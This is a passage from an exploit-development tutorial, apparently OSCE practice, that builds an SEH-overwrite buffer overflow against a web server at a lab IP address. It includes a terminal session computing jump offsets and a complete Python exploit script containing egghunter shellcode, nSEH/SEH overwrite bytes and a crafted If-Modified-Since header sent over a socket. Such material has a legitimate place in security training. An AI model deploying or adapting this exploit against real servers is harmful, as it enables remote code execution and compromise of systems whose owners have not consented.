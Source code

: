 Let's add this to our exploit code and make sure we jump to it appropriately. We already know the *true* start of our `A` buffer is `0006FE48`. So let's use `offset.py` to tell us the offset to our current location for where we wanted to place our egghunter. 
```terminal_session
root@kali:~/OSCE/ # offset                                            
Enter Address #1: 6fe48
Enter Address #2: 6ff46
[+] Hex offset: 0xfe
[+] Decimal offset: 254
[-] ESP Sub Adjust Opcodes: \x54\x58\x2c\x7f\x2c\x7f\x50\x5c
[+] ESP Add Adjust Opcodes: \x54\x58\x04\x7f\x04\x7f\x50\x5c
```

So we know we need to put 254 `A` values before our egghunter. Let's update our exploit script. 
```python
import socket
import sys

host = "192.168.1.201"
port = 80

seh = "\x84\xf5\x44"
nseh = "\xeb\xcc\x90\x90"

#Tag = PWNS
egghunter = ("\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd\x2e\x3c\x05\x5a\x74"
"\xef\xb8\x50\x57\x4e\x53\x8b\xfa\xaf\x75\xea\xaf\x75\xe7\xff\xe7")

#PO @ 304
crash = "A" * 254
crash += egghunter
crash += "A" * (304 - len(crash))
crash += nseh
crash += seh


req = "GET / HTTP/1.1\r\n"
req += "Host: 192.168.1.201\r\n"
req += "User-Agent: Mozilla/5.0 (X11; Linux i686; rv:60.0) Gecko/20100101 Firefox/60.0\r\n"
req += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
req += "Accept-Language: en-US,en;q=0.5\r\n"
req += "Accept-Encoding: gzip, deflate\r\n"
req += "Connection: close\r\n"
req += "Upgrade-Insecure-Requests: 1\r\n"
req += "If-Modified-Since: Wed, " + crash + "\r\n\r\n"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host, port))
s.send(req)
s.close()
```

Checking our math, we see that after taking our negative jump, we land precisely on the beginning of our egghunter. 
